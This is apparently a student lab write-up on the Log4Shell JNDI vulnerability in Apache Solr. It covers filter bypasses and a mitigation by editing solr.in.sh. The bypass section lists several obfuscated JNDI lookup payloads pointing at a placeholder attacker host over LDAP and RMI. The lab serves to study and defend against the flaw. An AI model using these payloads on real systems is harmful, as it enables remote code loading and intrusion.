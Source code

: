 ## Task 8 - Bypasses

The JNDI payload presented in this lab is the standard and “typical” syntax for carrying out this type of attack.
Since this attack uses log4j, the payload can access all the resources that the package makes available. In other words, the attacker can use any kind of trick to hide, mask or obfuscate the payload.
There are an unlimited number of ways to infiltrate the syntax described. This task served to familiarize us with and explore the syntax.
The following are some of the examples provided for bypassing:

```bash
${${env:ENV_NAME:-j}ndi${env:ENV_NAME:-:}${env:ENV_NAME:-l}dap${env:ENV_NAME:-:}//attackerendpoint.com/}
${${lower:j}ndi:${lower:l}${lower:d}a${lower:p}://attackerendpoint.com/}
${${upper:j}ndi:${upper:l}${upper:d}a${lower:p}://attackerendpoint.com/}
${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://attackerendpoint.com/z}
${${env:BARFOO:-j}ndi${env:BARFOO:-:}${env:BARFOO:-l}dap${env:BARFOO:-:}//attackerendpoint.com/}
${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}://attackerendpoint.com/}
${${::-j}ndi:rmi://attackerendpoint.com/}
```

## Task 9 - Mitigation

In this task the focus was on possible mitigations. Several options were explored and are described below.
The option explored was to manually modify the solr.in.sh file with a specific syntax.
We started by checking where the file in question was on the filesystem of the victim's machine.

![Task 9.1](./img/Lab5/Task9.1.png)

Next, we change the configuration of this file according to the Security page of the Apache Solr website, which states that you must add a specific syntax to the `solr.in.sh` file.

![Task 9.2](./img/Lab5/Task9.2.png)

This process can vary depending on the installation, so the service had to be restarted.

